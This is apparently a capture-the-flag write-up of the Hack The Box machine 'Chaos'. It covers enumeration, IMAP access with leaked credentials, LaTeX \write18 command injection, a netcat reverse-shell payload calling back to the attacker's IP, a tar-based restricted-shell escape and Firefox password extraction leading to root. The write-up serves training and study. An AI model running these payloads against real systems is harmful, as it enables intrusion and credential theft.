


## Overview

Chaos is an Ubuntu box which requires the use of multiple different skills to get access and escalate privileges. Enumeration on port 80 uncovered a password protected page with webmail credentials that were used to log on via IMAP. Browsing through the user's email I found a draft with 2 attachments that had to be decoded and unencrypted. The unencrypted file reveals a URL to a page that converts PDFs which appears at first not to be functioning. After intercepting with burp I uncovered some additional information that lead to remote code execution and a shell as www-data. Password reuse was a consistent theme and I was able to switch to the user ayush but found myself in a restricted shell which I escape using the tar command. I was then able to browse to Ayush's home folder where I found a firefox profile. I used a script to decrypt it (with the same password), which revealed webmin credentials for root.  Although I was able to successfully authenticate to webmin with those credentials, it wasn't necessary because I was able to use those same credentials to switch to the root user.

## Enumeration

**Software**

* kernel: Linux chaos 4.18.0-12-generic #13-Ubuntu SMP
* mysql  Ver 14.14 Distrib 5.7.24, for Linux (x86_64) using  EditLine wrapper
* bash .4.19(1)-release
* PHP 7.2.10-0ubuntu1 (cli) 
* dovecot 2.3.2.1 (0719df592)
* postfix mail_version = 3.3.0

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.120 -oN /mnt/data/boxes/chaos/_full_tcp_nmap.txt
```

* 80/tcp - Apache/2.4.34 (Ubuntu)
* 110/tcp - Dovecot pop3d
* 143/tcp - Dovecot imapd
* 993/tcp- ssl/imap Dovecot imapd
* 995/tcp - ssl/imap Dovecot pop3d
* 10000/tcp - MiniServ 1.890

**Directory/File Brute Force**

> On this box I ran two different scans since it appeared virtual hosts were in use.

```
gobuster dir -u http://chaos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 35
```

* /index.html (Status: 200)
* /contact.html (Status: 200)
* /about.html (Status: 200)
* /blog.html (Status: 200)
* /img (Status: 301)
* /css (Status: 301)
* /source (Status: 301)
* /js (Status: 301)
* /javascript (Status: 301)
* /hof.html (Status: 200)

```
gobuster dir -u http://10.10.10.120 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 35
```

* /index.html (Status: 200)
* /wp (Status: 301)
* /javascript (Status: 301)

## Steps (User)

Browsing to http://10.10.10.120 shows the error message "Direct IP not allowed". This indicates tha virtual hosts were in use and the site needed to be accessed by name not IP Address.

> For machines on the hack the box I usually try <machine_name>.htb first because I see this quite often. 

I updated my /etc/hosts file with the following:

```
10.10.10.120 chaos.htb chaos
```



Browsing to the site again using the hostname it shows the company webpage for Chaos.


After manually reviewing all pages and source code, including gobuster findings for chaos.htb, I find nothing interesting.

Reviewing the gobuster findings for 10.10.10.120 there is a folder called /wp, browsing to that shows us a directory listing with one result "wordpress". 


Browsing to http://10.10.10.120/wp/wordpress brought me to a wordpress site.


After doing some manual review of all pages and source code for the wordpress site, I came across a password protected page. Looking at the page "Protected:Chaos" we see that the author is "human". Trying this as the password allows access and shows some webmail credentials:


```
creds for webmail:
username ayush
password jiujitsu
```

From the port scans I knew that chaos was listening on port 143/993 (IMAP). I get an error message attempting to login via 143 so I used openssl to connect to IMAP/s on port 993.


```
openssl s_client -connect 10.10.10.120:993 -crlf
```


I was able to login as ayush
```
a1 login ayush jiujitsu
```

This command lists folders
```
a2 list "" "*"
```

I examined drafts folder
```
a3 examine Drafts
```

And fetched the body of message in drafts
```
a4 fetch 1 body []
```

```
 1 FETCH (BODY[] {2532}                                                                                                                                              
MIME-Version: 1.0                                                                                                                                                     
Content-Type: multipart/mixed;                                                                                                                                        
 boundary="=_00b34a28b9033c43ed09c0950f4176e1"                                                                                                                        
Date: Sun, 28 Oct 2018 17:46:38 +0530                                                                                                                                 
From: ayush <ayush@localhost>                                                                                                                                         
To: undisclosed-recipients:;                                                                                                                                          
Subject: service                                                                                                                                                      
Message-ID: <7203426a8678788517ce8d28103461bd@webmail.chaos.htb>                                                                                                      
X-Sender: ayush@localhost                                                                                                                                             
User-Agent: Roundcube Webmail/1.3.8                                                                                                                                   
                                                                                                                                                                      
--=_00b34a28b9033c43ed09c0950f4176e1                                                                                                                                  
Content-Transfer-Encoding: 7bit                                                                                                                                       
Content-Type: text/plain; charset=US-ASCII;                                                                                                                           
 format=flowed                                                                                                                                                        

Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush

--=_00b34a28b9033c43ed09c0950f4176e1
Content-Transfer-Encoding: base64
Content-Type: application/octet-stream;
 name=enim_msg.txt
Content-Disposition: attachment;
 filename=enim_msg.txt;
 size=272

MDAwMDAwMDAwMDAwMDIzNK7uqnoZitizcEs4hVpDg8z18LmJXjnkr2tXhw/AldQmd/g53L6pgva9
RdPkJ3GSW57onvseOe5ai95/M4APq+3mLp4GQ5YTuRTaGsHtrMs7rNgzwfiVor7zNryPn1Jgbn8M
7Y2mM6I+lH0zQb6Xt/JkhOZGWQzH4llEbyHvvlIjfu+MW5XrOI6QAeXGYTTinYSutsOhPilLnk1e
6Hq7AUnTxcMsqqLdqEL5+/px3ZVZccuPUvuSmXHGE023358ud9XKokbNQG3LOQuRFkpE/LS10yge
+l6ON4g1fpYizywI3+h9l5Iwpj/UVb0BcVgojtlyz5gIv12tAHf7kpZ6R08=
--=_00b34a28b9033c43ed09c0950f4176e1
Content-Transfer-Encoding: base64
Content-Type: text/x-python; charset=us-ascii;
 name=en.py
Content-Disposition: attachment;
 filename=en.py;
 size=804

ZGVmIGVuY3J5cHQoa2V5LCBmaWxlbmFtZSk6CiAgICBjaHVua3NpemUgPSA2NCoxMDI0CiAgICBv
dXRwdXRGaWxlID0gImVuIiArIGZpbGVuYW1lCiAgICBmaWxlc2l6ZSA9IHN0cihvcy5wYXRoLmdl
dHNpemUoZmlsZW5hbWUpKS56ZmlsbCgxNikKICAgIElWID1SYW5kb20ubmV3KCkucmVhZCgxNikK
CiAgICBlbmNyeXB0b3IgPSBBRVMubmV3KGtleSwgQUVTLk1PREVfQ0JDLCBJVikKCiAgICB3aXRo
IG9wZW4oZmlsZW5hbWUsICdyYicpIGFzIGluZmlsZToKICAgICAgICB3aXRoIG9wZW4ob3V0cHV0
RmlsZSwgJ3diJykgYXMgb3V0ZmlsZToKICAgICAgICAgICAgb3V0ZmlsZS53cml0ZShmaWxlc2l6
ZS5lbmNvZGUoJ3V0Zi04JykpCiAgICAgICAgICAgIG91dGZpbGUud3JpdGUoSVYpCgogICAgICAg
ICAgICB3aGlsZSBUcnVlOgogICAgICAgICAgICAgICAgY2h1bmsgPSBpbmZpbGUucmVhZChjaHVu
a3NpemUpCgogICAgICAgICAgICAgICAgaWYgbGVuKGNodW5rKSA9PSAwOgogICAgICAgICAgICAg
ICAgICAgIGJyZWFrCiAgICAgICAgICAgICAgICBlbGlmIGxlbihjaHVuaykgJSAxNiAhPSAwOgog
ICAgICAgICAgICAgICAgICAgIGNodW5rICs9IGInICcgKiAoMTYgLSAobGVuKGNodW5rKSAlIDE2
KSkKCiAgICAgICAgICAgICAgICBvdXRmaWxlLndyaXRlKGVuY3J5cHRvci5lbmNyeXB0KGNodW5r
KSkKCmRlZiBnZXRLZXkocGFzc3dvcmQpOgogICAgICAgICAgICBoYXNoZXIgPSBTSEEyNTYubmV3
KHBhc3N3b3JkLmVuY29kZSgndXRmLTgnKSkKICAgICAgICAgICAgcmV0dXJuIGhhc2hlci5kaWdl
c3QoKQoK
--=_00b34a28b9033c43ed09c0950f4176e1--
)
```

Looks like there is an email with a couple attachments, 1) en.py and 2) enim_msg.txt. en.py is the script used to encrypt the message.

I used the base64 -d command to decode en.py which looks like it's a script used to encrypt the other attachment. Reviewing the now decoded script I can see there is an encrypt but no decrypt function.

```
echo 'ZGVmIGVuY3J5cHQoa2V5LCBmaWxlbmFtZSk6CiAgICBjaHVua3NpemUgPSA2NCoxMDI0CiAgICBvdXRwdXRGaWxlID0gImVuIiArIGZpbGVuYW1lCiAgICBmaWxlc2l6ZSA9IHN0cihvcy5wYXRoLmdldHNpemUoZmlsZW5hbWUpKS56ZmlsbCgxNikKICAgIElWID1SYW5kb20ubmV3KCkucmVhZCgxNikKCiAgICBlbmNyeXB0b3IgPSBBRVMubmV3KGtleSwgQUVTLk1PREVfQ0JDLCBJVikKCiAgICB3aXRoIG9wZW4oZmlsZW5hbWUsICdyYicpIGFzIGluZmlsZToKICAgICAgICB3aXRoIG9wZW4ob3V0cHV0RmlsZSwgJ3diJykgYXMgb3V0ZmlsZToKICAgICAgICAgICAgb3V0ZmlsZS53cml0ZShmaWxlc2l6ZS5lbmNvZGUoJ3V0Zi04JykpCiAgICAgICAgICAgIG91dGZpbGUud3JpdGUoSVYpCgogICAgICAgICAgICB3aGlsZSBUcnVlOgogICAgICAgICAgICAgICAgY2h1bmsgPSBpbmZpbGUucmVhZChjaHVua3NpemUpCgogICAgICAgICAgICAgICAgaWYgbGVuKGNodW5rKSA9PSAwOgogICAgICAgICAgICAgICAgICAgIGJyZWFrCiAgICAgICAgICAgICAgICBlbGlmIGxlbihjaHVuaykgJSAxNiAhPSAwOgogICAgICAgICAgICAgICAgICAgIGNodW5rICs9IGInICcgKiAoMTYgLSAobGVuKGNodW5rKSAlIDE2KSkKCiAgICAgICAgICAgICAgICBvdXRmaWxlLndyaXRlKGVuY3J5cHRvci5lbmNyeXB0KGNodW5rKSkKCmRlZiBnZXRLZXkocGFzc3dvcmQpOgogICAgICAgICAgICBoYXNoZXIgPSBTSEEyNTYubmV3KHBhc3N3b3JkLmVuY29kZSgndXRmLTgnKSkKICAgICAgICAgICAgcmV0dXJuIGhhc2hlci5kaWdlc3QoKQoK' | base64 -d > en.py
```

en.py
```
en.py

def encrypt(key, filename):
chunksize = 64*1024
outputFile = "en" + filename
filesize = str(os.path.getsize(filename)).zfill(16)
IV =Random.new().read(16)

encryptor = AES.new(key, AES.MODE_CBC, IV)

with open(filename, 'rb') as infile:
    with open(outputFile, 'wb') as outfile:
        outfile.write(filesize.encode('utf-8'))
        outfile.write(IV)

        while True:
            chunk = infile.read(chunksize)

            if len(chunk) == 0:
                break
            elif len(chunk) % 16 != 0:
                chunk += b' ' * (16 - (len(chunk) % 16))

            outfile.write(encryptor.encrypt(chunk))

def getKey(password):
        hasher = SHA256.new(password.encode('utf-8'))
        return hasher.digest()
```

I did an internet search with keywords from the script and I was able to find what looked like the full version of the en.py script so I copied it to my local box. 

> https://github.com/bing0o/Python-Scripts/blob/master/crypto.py

```
wget https://raw.githubusercontent.com/bing0o/Python-Scripts/master/crypto.py
```

base64 decode enim_msg.txt

```
base64 -d enim_msg.txt.b64 > enim_msg.txt
```

I ran crypto.py, providing the script name and password of "sahay" because in the email to sahay it says "You are the password XD."

```
./crypto.py -d enim_msg.txt -p sahay -i
```


Displaying the contents of enim_msg shows:


```
SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK
```

...more base64
```
cat enim_msg | base64 -d > enim_msg_decoded
```

Displaying contents of enim_msg_decoded shows:

```
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```

The decrypted message shows some information about a page that creates pdfs. Browsing to http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ shows a page titled "Testing pdf maker". Upon initial testing some of the functionality it appears the functionality is broken, hwoever, after taking a look at the responses uses burp it appears that things are in fact working in the background. The response also shows it's running latex along with a version number. 

```
This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)
```


Doing an internet search with this version information turns up a latex exploit https://0day.work/hacking-with-latex/ which details how to execute commands with \immediate\write18{env}

> With \write18 you can write to the 18th filedescriptor which is the commandline by default. This has to be enabled and as can be seen in the burp response, it is.

I sent the request to burp repeater so I could modify the parameters to run commands. As a test I ran the "env" command which produced a decent amount of output in order to confirm that the command was working.

```
content=\immediate\write18{env}&template=test2
```


After confirming that I was able to execute commands I moved onto creating a reverse shell. First I set up a netcat listener (nc -lvnp 4200) then inserted the netcat command to call back to my box.

```
content=\immediate\write18{rm+/tmp/z%3bmkfifo+/tmp/z%3bcat+/tmp/z|/bin/sh+-i+2>%261|nc+10.10.14.22+4200+>/tmp/z}&template=test2
```


It gave me the error "su: must be run from terminal" when attempting to su to ayush's account. In order to get a tty I ran the python command below. 

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

And then ran su to switch to ayush's account.

```
su ayush
```

After switching I found myself in a restricted shell



There's a trick to see which commands are available in the restricted shell by typing tab/tab but it requires a fully interactive tty.

> More information can be found here https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```
CTRL+Z
stty raw -echo
fg
Enter twice
```

I was now able to press tab twice to see a listing of available commands. 


> [The Linux Shell Bypass Guide](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf) is good resource for escaping restricted shells

Under the advanced section, tar is listed which which was one of the available commands. 

```
tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
I was able to successfully escape rbash with tar. The next step was to export the PATH variable so commands could be executed more easily. 


```
export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH"
```

## Steps (root/system)


Enumeration of ayush's home shows a folder called ".mozilla" which contained a firefox profile. I used a tool called [firefox_decrypt](https://github.com/unode/firefox_decrypt) to extract the password

I downloaded the script to my working directory and set up a python http server in preperation to transfer files.
```
wget https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
python3 -m http.server 80
```

On the target, wget was used to transfer the file.
```
wget http://10.10.14.22/firefox_decrypt.py -O /dev/shm/firefox_decrypt.py
```

I ran the script, providing ayush's password as a parameter, and I was able to extract the password for the webmin site.


```
Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```

Although the output showed the root password for the webmin site, password reuse has been pretty consistent so far so so i went ahead and tried switching directly to root and it worked. 


